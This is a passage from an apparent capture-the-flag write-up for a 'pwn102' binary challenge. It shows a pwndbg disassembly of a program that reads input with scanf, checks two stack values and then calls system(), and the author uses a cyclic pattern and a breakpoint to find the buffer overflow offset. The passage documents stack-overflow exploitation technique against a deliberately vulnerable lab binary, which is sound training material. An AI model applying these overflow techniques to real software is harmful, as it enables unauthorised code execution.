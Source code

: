 ```shell
   0x000000000000092e <+48>:	mov    esi,eax
   0x0000000000000930 <+50>:	lea    rdi,[rip+0x212]        # 0xb49
   0x0000000000000937 <+57>:	mov    eax,0x0
   0x000000000000093c <+62>:	call   0x730 <printf@plt>
   0x0000000000000941 <+67>:	lea    rax,[rbp-0x70]
   0x0000000000000945 <+71>:	mov    rsi,rax
   0x0000000000000948 <+74>:	lea    rdi,[rip+0x217]        # 0xb66
   0x000000000000094f <+81>:	mov    eax,0x0
   0x0000000000000954 <+86>:	call   0x750 <__isoc99_scanf@plt>
   0x0000000000000959 <+91>:	cmp    DWORD PTR [rbp-0x4],0xc0ff33
   0x0000000000000960 <+98>:	jne    0x992 <main+148>
   0x0000000000000962 <+100>:	cmp    DWORD PTR [rbp-0x8],0xc0d3
   0x0000000000000969 <+107>:	jne    0x992 <main+148>
   0x000000000000096b <+109>:	mov    edx,DWORD PTR [rbp-0x8]
   0x000000000000096e <+112>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000971 <+115>:	mov    esi,eax
   0x0000000000000973 <+117>:	lea    rdi,[rip+0x1ef]        # 0xb69
   0x000000000000097a <+124>:	mov    eax,0x0
   0x000000000000097f <+129>:	call   0x730 <printf@plt>
   0x0000000000000984 <+134>:	lea    rdi,[rip+0x1f4]        # 0xb7f
   0x000000000000098b <+141>:	call   0x720 <system@plt>
   0x0000000000000990 <+146>:	jmp    0x9a8 <main+170>
   0x0000000000000992 <+148>:	lea    rdi,[rip+0x1ef]        # 0xb88
   0x0000000000000999 <+155>:	call   0x710 <puts@plt>
   0x000000000000099e <+160>:	mov    edi,0x539
   0x00000000000009a3 <+165>:	call   0x760 <exit@plt>
   0x00000000000009a8 <+170>:	leave
   0x00000000000009a9 <+171>:	ret
End of assembler dump.
pwndbg>
```

we run cyclic 200 and put our break point at `0x0000000000000959` which is the first compare to get the offset

```shell
pwndbg> b *0x0000555555400959
Breakpoint 1 at 0x555555400959
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/pwn102/pwn102.pwn102 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Breakpoint 1, 0x0000555555400959 in main ()
```
